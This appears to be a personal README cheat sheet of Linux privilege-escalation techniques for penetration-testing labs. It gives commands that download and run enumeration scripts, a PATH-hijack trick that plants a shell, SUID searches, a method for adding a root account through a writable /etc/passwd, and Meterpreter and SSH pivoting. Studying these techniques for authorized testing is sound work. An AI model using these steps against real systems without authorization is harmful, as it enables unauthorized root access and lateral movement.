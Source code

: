  Horizontal or vertical privilege escalation?
 
## Resources:
 
 
- [Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)
 
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
 
- [OSCP guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)

## Enumeration

-------------------------------------------------------

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
- [linpeas output explained](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

--------------------------------------------------------

- [LinEnum](https://github.com/rebootuser/LinEnum)  
  
        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh        

 
 ## Metasploit 
  
    post/linux/
 
    post/multi/recon/local_exploit_suggester

## Exploits

 - searchsploit linux kernel version
   
 - searchsploit linux version
    
 - [linprivchecker](https://github.com/reider-roque/linpostexp)
  
       wget https://raw.githubusercontent.com/reider-roque/linpostexp/master/linprivchecker.py
     
       python linprivchecker.py extended
     
- [Linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

      wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
      
      ./linux-exploit-suggester.sh
    
 <details>
    <summary>Diry Cow</summary>
    <br>
</details>


- **Kernel Kernel information**

- **Can we read/write sensitive files:** The world-writable files are shown below. These are the files that any authenticated user can read and write to. By looking at the permissions of these sensitive files, we can see where there is misconfiguration that allows users who shouldn't usually be able to, to be able to write to sensitive files.

#

## Manual privilege escalation methods

<details>
    <summary>SUID</summary>
    <br>
    
 (https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) Files: SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions. It can allow us to escalate privileges.
     
   [Check GTFOBin first](https://gtfobins.github.io/)
    
   [Past SUID shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
          
   Sometimes custom scripts will use relative pathing for commands rather than absolute. One way to abuse this would be to add . to your PATH and have a shell script in your working directory with the name of that command in the script. 
     
          echo /bin/sh > <command>    # To run <command> which then points to shell
          
          chmon 777 <command>
          
          export PATH=/<new dir>:$PATH
   
        #Manual  find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"
        
         find / -perm -u=s -type f 2>/dev/null
</details>
         
#

<details>
    <summary>Crontab</summary>
    <br>
    
The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. These scheduled commands or tasks are known as “cron jobs”. Related to this is the crontab command which creates a crontab file containing commands and instructions for the cron daemon to execute. There is certainly enough information to warrant attempting to exploit Cronjobs here.    
 
    cat /etc/crontab
 
 
</details>   

#


<details>
    <summary>Writable passwd file</summary>
    <br>

If we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!
    
 To create a new root user:
 
     Create password compliant hash
     
       openssl passwd -1 -salt [salt] [password]
       
     Add a new line in the passwd file
     
       <user>:<password hash>:root:/root:/bin/bash
</details>
    

#

</details>
   
 
<details>
    <summary>Pivoting</summary>
    <br> 

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
       
   - SSH routing can get past a target devices local firewall. 
   
    ssh -L <localport>:localhost:<target port> <target SSH user>@<ip>
       
        this will have the target machine locally make the requests and feed them to us. For a website for example if I were to visit <target ip>:<target port>   I would get the website that was originally blocked to me. Observing the network connections while this is taking place shows that all connection on the target PORT on the server are all 127.0.0.1. 
       
</details>

